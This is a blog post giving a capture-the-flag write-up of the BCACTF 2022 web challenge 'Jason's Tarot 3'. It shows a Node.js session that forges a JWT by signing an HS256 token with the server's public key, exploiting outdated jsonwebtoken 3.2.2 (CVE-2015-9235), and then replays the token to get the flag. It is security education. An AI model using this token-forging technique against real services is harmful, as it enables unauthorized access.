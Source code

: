 ```yaml
---
layout: post
title:  "Jason's Tarot 3 (Web Challenge Writeup) -- BCACTF 3.0 2022"
date:   2022-06-06
image: /bcactf22/logo.png
---
```

<p class="intro"><span class="dropcap">B</span>CACTF 2022 took place on June 3 to 6, 2022. It was 72 hours of challenges and exceptional support from the organizers. This WEB challenge is perfect to demonstrate why it is important to keep all the software we use up to date. The security of the software supply chain is of great importance following multiple far-reaching cyber attacks in recent years.</p>


#### Challenge Description: 

<figure>
        <img src="/assets/img/bcactf22/chall2.png" alt="" />
        <figcaption>Challenge Description</figcaption>
</figure>

We see that we were given three files to review: a public key certificate, a package.json and the server.js

We review the server.js

<figure>
        <img src="/assets/img/bcactf22/server-js.png" alt="" />
        <figcaption>server.js</figcaption>
</figure>

and, most important, review the package.json

<figure>
        <img src="/assets/img/bcactf22/package-json.png" alt="" />
        <figcaption>package.json</figcaption>
</figure>

Just as we did with [Jason's Web Tarot 2](https://leonuz.github.io/blog/Jasons-Web-Tarot-2/) challenge, we started loading the page with Burpsuit intercepted ON to capture the JSON Web Token (JWT) 

<figure>
        <img src="/assets/img/bcactf22/web.png" alt="" />
        <figcaption>Main site</figcaption>
</figure>

To decode the header and payload parts we use a web tool called [jwt.io](https://jwt.io)

<figure>
        <img src="/assets/img/bcactf22/jwt-io.png" alt="" />
        <figcaption>jwt_io</figcaption>
</figure>

Like the [Jason's Web Tarot 2](https://leonuz.github.io/blog/Jasons-Web-Tarot-2/) challenge, and now clearer by the revision of script.js, we need to become subscribed users to the application, to do this, we need to change (in the JWT) the value of the `"isSubscriber"` variable from its current value, `False`, to a new one, `True` in order to obtein the flag.

In the review of the package.json file, we notice that the *jsonwebtoken* version its 3.2.2, this version its outdated and vulnerable!!

<figure>
        <img src="/assets/img/bcactf22/CVE-2015-9235.png" alt="" />
        <figcaption>CVE-2015-9235</figcaption>
</figure>

So, in order to exploit that vulnerability, we need to build a new HMAC(HS256) token using the public key as a secret to it. 
We used nodejs jsonwebtoken module to do this 


{%- highlight bash -%}
┌──(leonuz㉿sniperhack)-[~/Downloads/ctf/bcactf/JWT]
└─$ node
Welcome to Node.js v16.14.2.
Type ".help" for more information.
> const jwt = require('jsonwebtoken')
undefined
> var fs = require('fs')
undefined
> var publicKey = fs.readFileSync('./public.pem');
undefined
> var token = jwt.sign({ "isSubscriber": true, "iat": 1654387812  }, publicKey, { algorithm:'HS256'});
undefined
> console.log(token)
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDM4NzgxMn0.jAwGD9e6JahpPHJZMfULiToDy12M9WaMoI_18hSZDko
undefined
{%- endhighlight -%}

Now we have the new JWT

<figure>
        <img src="/assets/img/bcactf22/burp-req.png" alt="" />
        <figcaption>New JWT token</figcaption>
</figure>

Now, all that remains is to substitute the new token in the request and send the new request. 
We use the function ["Repeatear" of Burpsuit](https://portswigger.net/burp/documentation/desktop/tools/repeater/using) to do that.

<figure>
        <img src="/assets/img/bcactf22/burp-flag2.png" alt="" />
        <figcaption>Send new Token and get the Flag</figcaption>
</figure>


And we get the flag!  

<figure>
        <img src="/assets/img/bcactf22/flag2.png" alt="" />
        <figcaption>Flag</figcaption>
</figure>


#### bcactf{w3_d3f1n3tly_d1dnt_h4v3_t0_ch4ng3_th1s_101010101010}

- - -
## Final Notes.  

[NIST](https://www.nist.gov/) recently released several key deliverables relating to cybersecurity. These focus on secure software development and new consumer labeling programs as contemplated by President Biden’s Executive Order 14028, which seeks to implement multiple new practices to improve the Nation’s cybersecurity.

More Info [here](https://www.jdsupra.com/legalnews/nist-releases-new-guidance-on-software-8128301/)

- - -
Thanks [BCACTF](https://www.bcactf.com/) for this great CTF, congratulations to the whole team!.  

For fun and knowledge, always think out of the box! :)

<figure>
        <img src="/assets/img/bcactf22/cert.png" alt="" />
</figure>

